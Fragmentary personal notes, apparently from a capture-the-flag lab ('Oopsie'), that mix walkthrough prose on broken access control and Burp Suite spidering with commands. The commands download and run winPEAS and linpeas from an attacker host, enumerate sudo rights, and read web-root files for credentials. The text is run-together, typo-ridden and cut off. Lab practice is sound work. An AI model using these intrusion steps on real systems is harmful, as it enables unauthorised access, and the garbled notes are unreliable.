 p> wget http://10.10.16.12:8000/winPEASx64.exe -outfile winPEASx64.exe
p> ./winPEASx64.exe   ==> to run the exe 









------

# Oopsie 

Whenever you are performing a web assessment that includes authentication mechanisms, it's alwaysadvised to check cookies, sessions and try to figure out how access control really works. In many cases, aRemote Code Execution attack and a foothold on system might not be achievable by itself, but rather afterchaining different types of vulnerabilties and exploits. In this box, we are going to learn that InformationDisclosure and Broken Access Control types of vulnerabilties even though they seem not very important canhave a great impact while attacking a system, and thus why even small vulnerabilities matter.


According to this information, the website should have a login page. Before we proceed with directory andpage enumeration, we can try to map website by using Burp Suite proxy to passively `spider the website`


A web crawler (also known as a web spider or web robot) is a program or automatedscript which browses the World Wide Web in a methodical, automated manner. This processis called Web crawling or spidering. Many legitimate sites, in particular searchengines, use spidering as a means of providing up-to-date data

If you tunnel web traffic through Burp Suite (without intercepting the packets), bydefault it can passively spider the website, update the `site map` with all of thecontents requested and thus creating a tree of files and directories without sendingany further requests.




>>> Please alwase keep burp running


# information disclosure vulnerability




when wget http://10.10.16.13:8000/linpeas.sh 

go to /tmp before 

```
su Username 
vs 
su -l 
```

before using linpeas.sh  ==> read /var/www/html/ files....    &&&& try sudo -l   &&&    id 
Let's read one by one the files now. We are goingto start with db.php which seems interesting:
